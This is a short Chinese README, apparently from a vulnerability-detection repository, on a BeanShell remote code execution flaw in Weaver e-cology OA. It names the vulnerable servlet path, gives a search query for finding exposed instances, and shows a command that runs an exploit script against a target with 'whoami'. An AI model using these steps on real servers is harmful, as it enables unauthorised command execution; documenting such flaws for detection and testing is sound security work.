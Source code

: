 ## 泛微e-cology OA Beanshell组件远程代码执行 ##

访问http://x.x.x.x:8001/weaver/bsh.servlet.BshServlet出现 BeanShell Test Servlet 即可触发  
app="泛微-协同办公OA"  
python "C:\Users\M\Desktop\泛微e-cology OA Beanshell组件远程代码执行.py" http://x.x.x.x:8001 whoami

![image](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/blob/master/%E6%B3%9B%E5%BE%AEe-cology%20OA/%E6%B3%9B%E5%BE%AEe-cology%20OA%20Beanshell%E7%BB%84%E4%BB%B6%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/pic/e-cology%20oa1.jpg)
